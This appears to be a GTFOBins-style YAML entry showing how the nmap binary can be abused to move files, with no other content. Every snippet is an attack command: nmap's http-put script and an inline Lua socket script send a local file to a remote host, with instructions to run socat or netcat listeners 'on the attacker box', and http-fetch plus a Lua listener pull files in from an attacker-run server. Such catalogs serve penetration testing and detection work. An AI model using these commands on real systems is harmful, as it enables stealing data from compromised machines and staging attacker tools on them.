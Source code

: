 ```yaml
---
functions:
  file-upload:
    - description: Send a local file via TCP. Run `socat -v tcp-listen:8080,reuseaddr,fork - on the attacker box to collect the file or use a proper HTTP server. Note that multiple connections are made to the server. Also, it is important that the port is a commonly used HTTP like 80 or 8080.
      code: |
        nmap -p $RPORT $RHOST --script http-put --script-args http-put.url=/,http-put.file=$LFILE
    - description: Send a local file via TCP. Run `nc -l -p 4444 > "file_to_save"` on the attacker box to collect the file.
      code: |
        TF=$(mktemp)
        echo 'local f=io.open(os.getenv("$LFILE"), 'rb')
        local d=f:read("*a")
        io.close(f);
        local s=require("socket");
        local t=assert(s.tcp());
        t:connect(os.getenv("$RHOST"),os.getenv("$RPORT"));
        t:send(d);
        t:close();' > $TF
        nmap --script=$TF
  file-download:
    - description: Fetch a remote file via TCP. Run a proper HTTP server on the attacker box to send the file, e.g., `php -S 0.0.0.0:8080`. Note that multiple connections are made to the server and the result is placed in `$TF/IP/PORT/PATH`. Also, it is important that the port is a commonly used HTTP like 80 or 8080.
      code: |
        TF=$(mktemp -d)
        LFILE=file_to_save
        nmap -p $RPORT $RHOST --script http-fetch --script-args http-fetch.destination=$TF,http-fetch.url=$LFILE
    - description: Fetch a remote file via TCP. Run `nc target.com 4444 < "file_to_send"` on the attacker box to send the file.
      code: |
        TF=$(mktemp)
        echo 'local k=require("socket");
        local s=assert(k.bind("*",os.getenv("LPORT")));
        local c=s:accept();
        local d,x=c:receive("*a");
        c:close();
        local f=io.open(os.getenv("LFILE"), "wb");
        f:write(d);
        io.close(f);' > $TF
        nmap --script=$TF
---
```

